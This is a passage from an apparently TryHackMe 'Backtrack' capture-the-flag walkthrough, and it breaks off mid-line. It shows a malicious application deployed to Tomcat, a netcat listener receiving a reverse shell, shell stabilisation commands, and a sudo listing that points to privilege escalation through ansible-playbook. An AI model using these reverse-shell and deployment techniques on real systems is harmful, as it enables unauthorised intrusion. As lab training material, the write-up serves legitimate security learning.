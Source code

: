 ```bash
> Accept: */*
> Content-Length: 13029
> 
* upload completely sent off: 13029 bytes
< HTTP/1.1 200 
< Cache-Control: private
< X-Frame-Options: DENY
< X-Content-Type-Options: nosniff
< Content-Type: text/plain;charset=utf-8
< Transfer-Encoding: chunked
< Date: Mon, 14 Oct 2024 10:40:05 GMT
< 
OK - Deployed application at context path [/myapp]
* Connection #0 to host 10.10.242.37 left intact

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ curl http://10.10.242.37:8080/myapp 
```

After accessing the malicious page we deployed, we will notice a reverse connection from the target to our listener. We can upgrade this shell to a fully interactive TTY shell to facilitate our enumeration and read the first flag.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.242.37] 58828
python3 -c 'import pty;pty.spawn("/bin/bash")' 
tomcat@Backtrack:/$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ stty raw -echo;fg               
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
tomcat@Backtrack:/$ cd ~
tomcat@Backtrack:~$ ls
BUILDING.txt     NOTICE         RUNNING.txt  flag1.txt  temp
CONTRIBUTING.md  README.md      bin          lib        webapps
LICENSE          RELEASE-NOTES  conf         logs       work
```

Enumerating tomcat's sudo right reveals that this user can execute the `/usr/bin/ansible-playbook` command on any file having the `.yml` extension in the `/opt/test_playbooks/` directory as wilbur. 
```bash
tomcat@Backtrack:~$ sudo -l
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
